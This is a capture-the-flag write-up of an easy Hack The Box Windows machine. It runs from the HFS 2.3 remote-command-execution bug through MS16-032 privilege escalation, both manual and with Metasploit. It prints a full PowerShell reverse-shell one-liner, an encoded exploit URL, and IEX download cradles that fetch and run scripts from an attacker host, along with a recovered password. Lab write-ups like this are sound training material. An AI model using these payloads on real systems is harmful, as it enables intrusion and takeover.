 [Done](Done)
## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- **Exploits Used**:
  - **RCE**: [CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287) – Rejetto HFS 2.3.x
  - **PrivEsc**: [CVE-2016-0099](https://nvd.nist.gov/vuln/detail/CVE-2016-0099) – MS16-032

---

## 🧭 Recon

### 🔍 Full TCP Scan
```bash
nmap -p- --min-rate 10000 10.10.10.8
```

### 🎯 Service Detection
```bash
nmap -p 80 -sCV 10.10.10.8
```

**Result:**
- Port `80` open
- Service: `HttpFileServer 2.3`

---

## 🌐 [Web Recon – HFS](HTTP)

### 🕵️ Vulnerability Check
```bash
searchsploit httpfileserver
```

**Finding:**  
`Rejetto HttpFileServer 2.3.x - Remote Command Execution` → [CVE-2014-6287](https://www.exploit-db.com/exploits/49125)

---

## 🧨 Initial Access – kostas

### 🔧 Exploit Trigger (PowerShell Reverse Shell)
**Prep Nishang One-liner:**
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.13',666);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Start server:
```bash
python3 -m http.server 80
```

### 🛰️ Netcat Listener
```bash
rlwrap nc -lnvp 443
```

Trigger via encoded URL:
```http
http://10.10.10.8/?search=%00{.exec|C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.13/rev.ps1').}
```

**Shell Received:**
```powershell
whoami
optimum\kostas
```

### 🏁 User Flag
```powershell
type C:\Users\kostas\Desktop\user.txt.txt
```

---

## 🧱 Privilege Escalation – SYSTEM

### 🧬 Confirm Architecture
```powershell
[Environment]::Is64BitProcess
True
```

### 🪪 Credential Reuse
```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```
> Found: `kostas : kdeEjDowkS*` (but already logged in as kostas)

---

### 🔍 Kernel Exploit Enumeration – Sherlock
**Upload & execute:**
```powershell
IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.13/Sherlock.ps1')
Find-AllVulns
```

**Findings:**
- MS16-032 → CVE-2016-0099 – ✅ Vulnerable
- MS16-034 / MS16-135 → also show as potentially vulnerable

---

### 🧬 Exploit MS16-032 Metasploit

### Metasploit

```
msfconsole -q
```

```
search windows/http/rejetto_hfs_exec
use 0

show options

set LHOST tun0
set RHOSTS 10.10.10.8
set LPORT 9999
set RPORT 80
```

```
background
sessions -i

```

```
search suggester
use 0
set session 1  
run

```

```
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc

set LHOST tun0
set LPORT 6663
set session 1
exploit
```

# ROOTED with Metasploit




### 🧬 Exploit MS16-032

**Exploit Script Used:**
[`Invoke-MS16032.ps1`](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1)

Append to script:
```powershell
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.10/rev.ps1')"
```

**Run from PowerShell:**
```powershell
IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.10/Invoke-MS16032.ps1')
```

### ⚡ SYSTEM Shell
```powershell
whoami
nt authority\system
```

### 🏁 Root Flag
```powershell
type C:\Users\Administrator\Desktop\root.txt
```

---

## 🧠 Lessons Learned

### 🪞 Initial Access
- HFS 2.3.x is vulnerable to RCE via `/?search=%00{.exec|...}`
- Using PowerShell cradles with `downloadString` is an effective and fast method to gain shells on legacy boxes.

### 🔓 PrivEsc Takeaways
- Kernel exploits like **MS16-032** remain valid for unpatched boxes.
- Use **Sherlock** or **Watson** (older machines might not support Watson’s .NET dependencies).
- Watch out for **process architecture** (32-bit shells won’t work for 64-bit kernel exploits).
